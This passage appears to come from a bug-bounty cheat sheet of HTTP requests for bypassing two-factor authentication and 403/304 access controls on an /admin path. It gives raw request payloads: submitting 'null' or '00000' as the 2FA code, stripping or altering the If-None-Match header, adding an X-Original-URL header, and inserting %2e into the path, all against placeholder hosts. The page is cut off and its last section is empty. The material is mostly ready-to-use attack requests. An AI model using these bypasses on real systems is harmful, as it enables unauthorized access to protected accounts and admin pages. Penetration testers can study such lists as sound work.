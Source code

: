 ```
code=00000
```
Enter code "null"
```
POST /2fa/
Host: vuln.com
...
code=null
```

## 304

### Delete "If-None-Match" header
```
GET /admin HTTP/1.1
Host: target.com
If-None-Match: W/"32-IuK7rSIJ92ka0c92kld"

----------------------------------------------

GET /admin HTTP/1.1
Host: target.com
```
### Adding random character in the end of "If-None-Match" header
```
GET /admin HTTP/1.1
Host: target.com
If-None-Match: W/"32-IuK7rSIJ92ka0c92kld"

------------------------------------------------

GET /admin HTTP/1.1
Host: target.com
Host: target.com
If-None-Match: W/"32-IuK7rSIJ92ka0c92kld" b
```

## 403

### Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com

----------------------------

GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```
### Appending %2e after the first slash
```
http://target.com/admin => 403

-----------------------------------

http://target.com/%2e/admin => 200
```
### Try add dot (.) and slash (/) in the URL
```
```